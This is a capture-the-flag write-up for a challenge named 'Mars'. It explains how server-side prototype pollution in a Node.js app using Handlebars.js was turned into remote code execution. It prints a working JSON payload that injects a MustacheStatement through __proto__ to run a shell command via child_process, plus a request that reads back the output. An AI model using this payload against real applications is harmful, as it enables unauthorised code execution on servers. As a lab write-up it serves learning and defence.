 # Writeup: Mars (Server-Side Prototype Pollution → Remote Code Execution)

## **Challenge Overview**
The challenge **Mars** was hosted on `http://web-ctf.cyberspace.ma:5701`. By analyzing the target, we determined that the challenge involved a **Node.js** application that used **Handlebars.js** as a templating engine. Given the presence of **Prototype Pollution**, we exploited it to achieve **Remote Code Execution (RCE)**.

---

## **Understanding the Vulnerability**
The attack vector involved **Prototype Pollution** in JavaScript. This occurs when an attacker can modify the `__proto__` property of an object, thereby injecting malicious behavior into the application's execution flow. 

In this case, we could modify the `__proto__` property to inject **MustacheStatements**, allowing us to execute arbitrary code in Handlebars.js.

---

## **Exploitation Process**
### **1. Sending the Prototype Pollution Payload**
We sent a `POST` request to the `/api/submit` endpoint, including the following JSON payload:

```json
{
    "artist.name": "Mars",
    "__proto__.type": "Program",
    "__proto__.body": [{
        "type": "MustacheStatement",
        "path": 0,
        "params": [{
            "type": "NumberLiteral",
            "value": "process.mainModule.require('child_process').execSync(`whoami > /app/static/out`)"
        }],
        "loc": {
            "start": 0,
            "end": 0
        }
    }]
}
```

#### **What happens here?**
- We modify the `__proto__` property to **inject a new statement into the Handlebars.js template rendering engine**.
- The injected **MustacheStatement** executes JavaScript code, allowing us to run:
  ```js
  process.mainModule.require('child_process').execSync(`whoami > /app/static/out`)
  ```
- This command writes the output of `whoami` (the current user running the application) into the `/app/static/out` file.

### **2. Retrieving the Command Output**
After injecting our payload, we made a `GET` request to retrieve the output:

```python
print(requests.get(TARGET_URL+'/static/out').text)
```
